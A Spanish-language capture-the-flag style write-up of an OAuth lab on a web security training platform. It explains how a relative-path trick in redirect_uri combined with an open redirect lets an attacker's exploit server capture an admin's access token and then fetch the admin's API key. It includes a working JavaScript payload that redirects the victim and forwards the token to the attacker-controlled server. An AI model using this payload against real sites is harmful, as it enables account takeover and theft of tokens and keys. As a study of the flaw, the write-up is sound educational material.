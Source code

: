 En esta segunda clase, se encadena la redirección relativa (**../**) en el **redirect_uri** con la redirección abierta (**/post/next?path=**) para forzar que el flujo OAuth finalice en un servidor externo controlado por el atacante (exploit server).

Se construye un iframe malicioso que redirige al administrador (quien tiene sesión activa con el proveedor OAuth) a través del flujo de autenticación. El token de acceso resultante se incluye como fragmento (**#access_token=…**) en la URL de redirección final.

Mediante un pequeño script JavaScript en el exploit server, el fragmento es extraído y reenviado como parámetro de consulta (**/?access_token=…**), permitiendo su captura desde los logs del servidor.

Con el token ya robado, se realiza una solicitud autenticada al endpoint **/me** del blog, obteniendo así la API key del administrador. Esta clave es enviada como solución para completar el laboratorio.

La clase pone de relieve cómo una mala validación en **redirect_uri**, sumado a una redirección abierta interna, puede comprometer tokens sensibles sin necesidad de vulnerar el proveedor OAuth directamente.

Solucion
../post/next?path=
Entonces ahora necesitamos redirigir a la victima para eso vamos a crearnos un script el cual lo que ara es traer el apikey del administrador
(<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a38007603b7bcd080ff339002250043.oauth-server.net/auth?client_id=ssw7aglu9bjrzy5fj9tqp&redirect_uri=https://0a40007903afbced80f7357f00f0002e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a74008e03d8bcfa809a34e3014c00a9.exploit-server.net/exploit&response_type=token&nonce=-2060465930&scope=openid%20profile%20email';
    } else {
        window.location = '/?'+ document.location.hash.substr(1);
    }
</script>)
![Pasted image 20250830185131.png](imagenes/Pasted image 20250830185131.png)
le damos store y le damos acces log
![Pasted image 20250830185229.png](imagenes/Pasted image 20250830185229.png)
copias el ultimo access_token
dentro del repeater en la seccion de /me lo modificamos en la parte que dice authorization y le damos send
![Pasted image 20250830185311.png](imagenes/Pasted image 20250830185311.png)
de modo que nos dara la api key y con esa la copiamos y pegamos en el laboratorio
![Pasted image 20250830185356.png](imagenes/Pasted image 20250830185356.png)
